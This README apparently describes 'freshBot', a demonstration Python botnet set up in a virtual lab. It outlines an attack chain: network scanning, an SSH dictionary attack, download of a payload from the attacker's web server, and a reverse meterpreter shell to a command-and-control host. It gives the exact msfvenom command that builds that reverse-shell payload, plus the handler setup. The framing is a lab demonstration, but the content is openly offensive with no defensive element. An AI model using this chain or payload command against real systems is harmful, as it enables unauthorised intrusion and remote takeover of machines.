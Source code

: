# freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh<br>
running on it performs a dictionary attack. If correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server. 2nd stage payload reverse meterpreter shell to C&C.<br>
<br>
<h2>The Environment Setup</h2><br>
<br>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create Web Server: <h4>192.168.203.1/evil_file</h4>
3. 4 target ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150<br>
&nbsp;&nbsp;&nbsp;192.168.203.151<br>
&nbsp;&nbsp;&nbsp;192.168.203.152<br>
&nbsp;&nbsp;&nbsp;192.168.203.153<br>
<br>
4. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. scan_drop.py <h4>Scan, Dictionary Attack, RCE.</h4>

